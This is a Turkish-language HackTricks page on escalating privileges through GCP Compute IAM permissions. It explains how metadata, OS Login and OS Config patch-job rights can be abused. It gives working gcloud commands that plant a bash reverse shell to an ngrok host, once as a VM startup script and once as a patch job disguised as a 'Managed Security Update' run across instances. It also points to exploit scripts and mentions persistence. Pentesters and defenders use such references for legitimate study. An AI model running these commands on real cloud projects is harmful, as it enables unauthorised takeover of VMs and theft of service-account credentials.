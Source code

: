 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Compute

GCP'deki Compute ve VPC (ağ) hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Önemli: Metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için (yeni kullanıcılar ve SSH anahtarları eklemek gibi) **örneğin bağlı SA üzerinde `actAs` izinlerinizin olması GEREKİR**, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle **bir örneğin** **metadata** bilgilerini **değiştirebilir** ve **bir kullanıcının yetkilendirilmiş anahtarlarını** değiştirebilir veya **sudo** izinlerine sahip **yeni bir kullanıcı oluşturabilirsiniz**. Bu nedenle, herhangi bir VM örneğine SSH ile bağlanabilir ve örneğin çalıştığı GCP Hizmet Hesabını çalabilirsiniz.\
Sınırlamalar:

* GCP Hizmet Hesaplarının VM örneklerinde varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın.
* Giriş yapmak için **SSH** sunucusuyla **iletişim kurabilmeniz** gerekecek.

Bu izni nasıl istismar edeceğiniz hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ayrıca yeni bir başlangıç betiği ekleyerek ve örneği yeniden başlatarak bu saldırıyı gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki iznin aynı ayrıcalıklarını** belirli bir örnek üzerinde verir, tüm proje yerine. **Önceki bölümdeki aynı istismarlar ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenizi** ve bunları kötüye kullanarak ayrıcalıkları artırmanızı sağlar.

### **`compute.instances.osLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olmayacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin örnekte etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak örneğe bağlanabilirsiniz. Örnekte **root ayrıcalıklarınız olacak**.

{% hint style="success" %}
Bu izinle VM örneği içinde başarılı bir şekilde giriş yapmak için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Atanmış bir Hizmet Hesabı ile **bir sanal makine oluşturmak ve token'ı çalmak** mümkündür, böylece ayrıcalıkları artırmak için meta verilere erişebilirsiniz.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinleriniz varsa, bir [**yamanın işi veya dağıtımı**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanlamasına hareket etmenizi ve bir projedeki tüm hesaplama örneklerinde kod yürütme elde etmenizi sağlar.

Şu anda, örneğe bağlı SA üzerinde **`actAs` iznine** ihtiyacınız olmadığını unutmayın.

Bunu manuel olarak istismar etmek istiyorsanız, ya bir [**yamanın işi**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ya da** [**dağıtım**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** oluşturmanız gerekecek.**\
Bir yamanın işi için çalıştırın:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yamanın dağıtımını yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) geçmişte bu yanlış yapılandırmayı istismar etmek için kullanılabiliyordu (ama şimdi çalışmıyor).

**Bir saldırgan bunu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ek izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ek izinler verin** bir disk anlık görüntüsü için.

### `compute.disks.setIamPolicy`

**Kendinize ek izinler verin** bir disk için.

### Erişim Kapsamlarını Aşma

Bu bağlantıyı takip ederek bazı [**erişim kapsamlarını aşma fikirleri**](../) bulabilirsiniz.

### GCP Compute örneğinde Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
